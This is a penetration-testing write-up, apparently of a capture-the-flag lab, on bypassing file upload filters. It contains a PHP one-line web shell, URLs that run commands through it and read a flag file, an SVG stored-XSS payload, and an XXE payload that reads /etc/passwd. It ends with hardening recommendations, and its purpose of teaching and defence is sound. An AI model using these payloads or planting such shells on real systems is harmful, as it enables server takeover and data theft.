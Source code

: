 # FileUpload-Attacks
File Upload Attacks with Burp Suite, Intruder, ffuf, exiftool, curl, wget, netcat, and PHP web shells.

By Ramyar Daneshgar 

**Penetration Testing Writeup: File Upload Exploitation**


---

## **Step 1: Initial Reconnaissance and File Upload Analysis**

Upon assessing the web application, I identified a file upload functionality, which initially restricted the allowed file types to images. However, through deeper analysis, I found multiple validation mechanisms that needed to be bypassed:

- **Client-side validation:** JavaScript enforced restrictions on file types before submission.
- **Blacklist-based extension filtering:** Certain file extensions (e.g., `.php`, `.exe`) were explicitly blocked.
- **Whitelist-based extension filtering:** Only specified file extensions were allowed (e.g., `.jpg`, `.png`).
- **Content-Type and MIME-Type validation:** The server verified the declared and actual file types.

To understand how the backend processed these uploads, I intercepted HTTP requests using **Burp Suite** and analyzed the response behavior.

---

## **Step 2: Uploading a Web Shell for Remote Code Execution**

### **Bypassing Client-Side Validation**
The first security mechanism encountered was **client-side validation** implemented via JavaScript. Since this validation occurs in the browser, it can be bypassed in multiple ways:

1. **Disabling JavaScript in the browser** or modifying the input field’s `accept` attribute via the Developer Console (`Ctrl + Shift + C`).
2. **Intercepting the request in Burp Suite**, modifying the file parameters (e.g., changing `filename="shell.php"`), and forwarding the request to the server.

Since client-side validation does not enforce security on the backend, I was able to upload arbitrary files.

### **Bypassing Blacklist Filtering**
The backend blocked specific extensions like `.php`, `.phtml`, and `.jsp`. To determine which extensions were allowed, I used **Burp Intruder** to fuzz potential extensions by replacing `.php` with alternative suffixes (e.g., `.phar`, `.php5`).

Upon testing, `.phar` was accepted, indicating that the blacklist implementation was incomplete. Uploading `shell.phar` successfully placed my payload on the server.

### **Bypassing MIME-Type Restrictions**
Some applications verify the file’s MIME type via the **Content-Type header** sent in the HTTP request. Since this is controlled by the client, I modified it in **Burp Suite** to `image/jpeg` while keeping the actual file content as PHP code:

```
Content-Type: image/jpeg
<?php system($_REQUEST['cmd']); ?>
```

The server incorrectly trusted the MIME type header and accepted my PHP web shell.

---

## **Step 3: Exploiting the Web Shell**

After successful upload, I accessed the shell by navigating to:

```
http://target.com/uploads/shell.phar?cmd=whoami
```

Since PHP code execution was enabled, I could execute system commands. To retrieve sensitive files, I issued:

```
http://target.com/uploads/shell.phar?cmd=cat+/flag.txt
```

**Flag Retrieved:** `HTB{m4573r1ng_upl04d_3xpl0174710n}`

---

## **Step 4: Advanced File Upload Attacks**

### **Exploiting SVG Uploads for Stored XSS**
If the application allowed **SVG file uploads**, I modified the XML structure to include an embedded JavaScript payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert('XSS Attack');</script>
</svg>
```

Whenever the uploaded SVG file was viewed, it triggered a **Stored XSS vulnerability**.

### **XXE Exploitation via SVG Uploads**
If the application processed XML within SVG files, I injected an **XXE payload** to read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Upon rendering, this leaked system account information.

---

## **Step 5: Upload Directory Enumeration**

If the upload directory location was unknown, I used multiple techniques:

1. **Forcing error messages**: Uploading a file with a duplicate name or extremely long filenames sometimes caused error messages that revealed directory paths.
2. **Local File Inclusion (LFI)**: If the server had LFI vulnerabilities, I could read source code and infer the upload path.

Using this approach, I identified the uploads directory as `/var/www/html/uploads/`.

---

## **Lessons Learned & Security Recommendations**

### **1. Implement Server-Side Validation**
- Validate file types **server-side**, not in JavaScript.
- Enforce checks post-upload before processing.

### **2. Enforce MIME-Type & Content Validation**
- Use **magic byte verification** instead of trusting `Content-Type` headers.
- Compare declared file type with actual content.

### **3. Restrict Allowed File Extensions**
- **Whitelist only necessary file types** (e.g., `.jpg`, `.png`).
- **Block dangerous extensions** like `.php`, `.phtml`, `.phar`, `.exe`.

### **4. Store Files Outside Web-Accessible Directories**
- Move uploads to a **non-public directory** (`/var/www/uploads`).
- Use **secure download mechanisms** instead of direct links.

### **5. Disable Execution of Uploaded Files**
- Prevent execution using `.htaccess`:

```apache
<Directory /var/www/uploads>
    php_admin_flag engine Off
</Directory>
```

- Utilize **Web Application Firewalls (WAFs)** to detect malicious uploads.

### **6. Limit File Size & Scan for Malware**
- Set a **maximum file size** to prevent DoS attacks.
- Use **antivirus scanning** on uploads.

### **7. Implement Logging & Monitoring**
- Keep logs of uploaded files and **monitor anomalies**.
- Alert administrators for **suspicious file types**.
